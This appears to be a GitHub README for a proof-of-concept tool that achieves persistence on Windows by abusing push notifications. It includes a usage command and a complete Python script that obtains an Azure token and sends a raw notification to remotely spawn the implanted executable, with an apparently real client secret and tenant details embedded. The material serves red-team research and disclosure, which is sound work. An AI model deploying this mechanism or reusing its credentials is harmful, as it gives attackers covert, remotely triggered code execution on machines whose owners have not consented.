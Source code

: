 # Hermes the messenger
A PoC for achieving persistence via push notifications on Windows

For more technical details and background read our blogpost here: https://www.persistent-security.net/post/beacon-on-demand-abusing-push-notifications-for-persistence



# Usage

Before anything else you need to [setup Azure](https://learn.microsoft.com/en-us/windows/apps/windows-app-sdk/notifications/push-notifications/push-quickstart#step-1-create-an-aad-app-registration). You then need to run the executable once in order to register itself for push notifications. You only need to pass the object id of your Azure app as an argument and if all goes well, it will print the channel Uri as received  by Microsoft. At that stage you may close the app.

```
hermes.exe <object_id>
```

If SDK 1.3 is not installed, the binary will attempt to deploy it along with the necessary extensions.

When you have the channel Uri, you can attempt to spawn your executable remotely from another machine by calling the notification API with your tenant's details, and watch the magic happen:

```python
import requests

secret = "4r8Q~XW6U_PmJYg6Eu_jV22DWlsnhyJBIrdpV"
app_id = "CA899E11-71CF-4DB3-962C-0EA65151C132" #not the object id but the Azure app id
tenant_id = "E83F2382-F012-475A-9A4C-30545F429FB7"
channel_uri = "https://wns2-am3p.notify.windows.com/?token=AwYAAAAiYI4p...."

def send_notification(secret, app_id, tenant_id, channel_uri, notification_data):
    # Acquire token
    url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    data = {
        'grant_type': 'client_credentials',
        'client_id': app_id,
        'client_secret': secret,
        'scope': 'https://wns.windows.com/.default'
    }
    response = requests.post(url, headers=headers, data=data)
    response_json = response.json()
    token = response_json['access_token']

    # Send notification
    headers = {
        'Content-Type': 'application/octet-stream',
        'Authorization': f'Bearer {token}',
        'X-WNS-Type': 'wns/raw',
    }
    response = requests.post(channel_uri, headers=headers, data=notification_data)
    return response.status_code, response.text
	
	
send_notification(secret, app_id, tenant_id, channel_uri, "This is a notification")
```

# Demo
https://github.com/persistent-security/hermes-the-messenger/assets/134269747/a1e68f32-d940-40b6-99ea-c54b5345e367
